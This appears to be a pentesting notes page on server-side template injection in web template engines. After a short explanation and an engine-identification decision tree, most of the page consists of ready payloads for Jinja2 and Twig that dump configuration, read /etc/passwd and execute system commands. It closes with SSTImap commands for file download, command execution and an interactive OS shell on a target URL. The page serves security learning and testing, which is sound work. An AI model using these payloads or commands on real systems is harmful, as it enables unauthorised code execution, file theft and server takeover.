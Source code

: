```yaml
---
layout: default
title: SSTI
permalink: /Web/ssti/
---
```


# Server-Side Template Injection (SSTI)
A template engine is software that combines pre-defined templates with dynamically generated data and is often used by web applications to generate dynamic responses.
This generation is often based on user input, enabling the web application to respond to user input dynamically.
When an attacker can inject template code that is later rendered by the server, a Server-Side Template Injection vulnerability can occur.
Popular examples of template engines are Jinja and Twig.
## Templating
### Jinja2
Example:
{% raw %}
```
Hello {{ name }}!
```
{% rawend %}
It contains a single variable called `name`, which is replaced with a dynamic value during rendering.
For-loop over all elements in the `names` variable (if is like `names=["name", "name2", "name3"]`):
```
{% for name in names %}
Hello {{ name }}!
{% endfor %}
```

## Confirming SSTI
The most effective way is to inject special characters with semantic meaning in template engines and observe the web application's behavior.
Example:
```
${{<%[%'"}}%\.
```

## Identifying the Template Engine
We can utilize slight variations in the behavior of different template engines. We can use this decision tree by following the green sign in case of successful code execution and the red cross in case of the payload wasn't executed:
{% raw %}
```
${7*7}
├── ✅ a{*comment*}b
│   ├── ✅ Smarty
│   └── ❌ ${"z".join("ab")}
│       ├── ✅ Mako
│       └── ❌ Unknown
└── ❌ {{7*7}}
    ├── ✅ {{7*'7'}}
    │       ├── ✅  Jinja2
    │       ├── ✅  Twig
    │       └── ❌ Unknown
    └── ❌ Not vulnerable
```
{% endraw %}
*Note: There are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).
## Exploiting SSTI in Jinja2
### Information Disclosure
Payload to dump the entire web application configuration:
```
{{ config.items() }}
```
Payload to dump all available built-in functions:
```
{{ self.__init__.__globals__.__builtins__ }}
```
### Local File Inclusion (LFI)
```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
### Remote Code Execution (RCE)
We can use functions provided by the os library, such as system or popen. However, if the web application has not already imported this library, we must first import it by calling the built-in function import:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
## Exploiting SSTI in Twig
### Information Disclosure
Payload to get information about the current template:
```
{{ _self }}
```
### Local File Inclusion (LFI)
The PHP web framework Symfony defines additional Twig filters. One of these filters is file_excerpt and can be used to read local files:
```
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
### Remote Code Execution (RCE)
```
{{ ['id'] | filter('system') }}
```
## Tools of the Trade
Popular tools for identifying and exploiting SSTI vulnerabilities are [tplmap](https://github.com/epinna/tplmap) and [SSTImap](https://github.com/vladko312/SSTImap).
### SSTImap
```
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py
```
To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:
```
python3 sstimap.py -u http://$ip/index.php?name=test
```
We can download a remote file to our local machine using the `-D` flag:
```
python3 sstimap.py -u http://$ip/index.php?name=test -D '/etc/passwd' './passwd'
```
We can execute a system command using the -S flag:
```
python3 sstimap.py -u http://$ip/index.php?name=test -S id
```
Alternatively, we can use --os-shell to obtain an interactive shell:
```
python3 sstimap.py -u http://$ip/index.php?name=test --os-shell
```
